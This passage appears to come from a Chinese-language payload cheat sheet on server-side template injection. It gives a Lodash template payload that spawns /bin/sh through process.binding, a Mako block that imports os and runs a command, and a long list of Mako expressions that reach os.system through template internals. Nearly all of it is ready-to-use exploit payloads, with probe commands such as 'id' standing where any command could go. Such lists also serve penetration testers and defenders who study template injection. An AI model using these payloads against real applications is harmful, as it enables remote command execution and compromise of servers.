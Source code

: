 ### Lodash - 命令执行

```
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","id;ls"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```

## Mako

[官方网站](https://www.makotemplates.org/)

> Mako是一个用Python编写的模板库。从概念上讲，Mako是一种嵌入式Python（即Python服务器页面）语言，它提炼了组件化布局和继承的熟悉概念，以产生最直观和最灵活的模型之一，同时也与Python调用和作用域语义保持紧密联系。

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

### 直接从TemplateNamespace访问os：

任何这些有效载荷都允许直接访问 `os` 模块

```python
${self.module.cache.util.os.system("id")}
${self.module.runtime.util.os.system("id")}
${self.template.module.cache.util.os.system("id")}
${self.module.cache.compat.inspect.os.system("id")}
${self.__init__.__globals__['util'].os.system('id')}
${self.template.module.runtime.util.os.system("id")}
${self.module.filters.compat.inspect.os.system("id")}
${self.module.runtime.compat.inspect.os.system("id")}
${self.module.runtime.exceptions.util.os.system("id")}
${self.template.__init__.__globals__['os'].system('id')}
${self.module.cache.util.compat.inspect.os.system("id")}
${self.module.runtime.util.compat.inspect.os.system("id")}
${self.template._mmarker.module.cache.util.os.system("id")}
${self.template.module.cache.compat.inspect.os.system("id")}
${self.module.cache.compat.inspect.linecache.os.system("id")}
${self.template._mmarker.module.runtime.util.os.system("id")}
${self.attr._NSAttr__parent.module.cache.util.os.system("id")}
${self.template.module.filters.compat.inspect.os.system("id")}
${self.template.module.runtime.compat.inspect.os.system("id")}
${self.module.filters.compat.inspect.linecache.os.system("id")}
${self.module.runtime.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.exceptions.util.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.util.os.system("id")}
${self.context._with_template.module.cache.util.os.system("id")}
${self.module.runtime.exceptions.compat.inspect.os.system("id")}
${self.template.module.cache.util.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.util.os.system("id")}
${self.module.cache.util.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.util.compat.inspect.os.system("id")}
${self.module.runtime.util.compat.inspect.linecache.os.system("id")}
${self.module.runtime.exceptions.traceback.linecache.os.system("id")}
${self.module.runtime.exceptions.util.compat.inspect.os.system("id")}
${self.template._mmarker.module.cache.compat.inspect.os.system("id")}
${self.template.module.cache.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.template.module.cache.util.os.system("id")}
${self.template._mmarker.module.filters.compat.inspect.os.system("id")}
${self.template._mmarker.module.runtime.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.cache.compat.inspect.os.system("id")}
${self.template._mmarker.module.runtime.exceptions.util.os.system("id")}
```